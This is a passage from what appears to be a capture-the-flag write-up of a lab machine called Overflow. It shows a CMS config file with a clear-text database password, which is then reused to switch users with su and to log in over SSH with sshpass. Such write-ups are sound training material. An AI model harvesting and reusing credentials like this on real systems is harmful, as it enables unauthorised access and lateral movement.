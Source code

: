 
And the same creds again in `/var/www/html/admin_cms_panel/config.php`:

    
    
    <?php
    # CMS Made Simple Configuration File
    # Documentation: https://docs.cmsmadesimple.org/configuration/config-file/config-reference
    #
    $config['dbms'] = 'mysqli';
    $config['db_hostname'] = 'localhost';
    $config['db_username'] = 'developer';
    $config['db_password'] = 'sh@tim@n';
    $config['db_name'] = 'cmsmsdb';
    $config['db_prefix'] = 'cms_';
    $config['timezone'] = 'America/Argentina/Tucuman';
    ?>
    

### su/ssh

That password, “sh@tim@n”, works for the developer user on the box:

    
    
    www-data@overflow:~$ su - developer
    Password: 
    -su: 28: set: Illegal option -o history
    -su: 1: set: Illegal option -o history
    $ id
    uid=1001(developer) gid=1001(developer) groups=1001(developer),1002(network)
    $ bash
    developer@overflow:~$ 
    

The creds work for SSH as well:

    
    
    oxdf@hacky$ sshpass -p 'sh@tim@n' ssh developer@10.10.11.119
    ...[snip]...
    $
    

## Shell as tester

### Enumeration

#### /opt

There is nothing of interest in `/home/developer`.

`/opt` has interesting stuff:

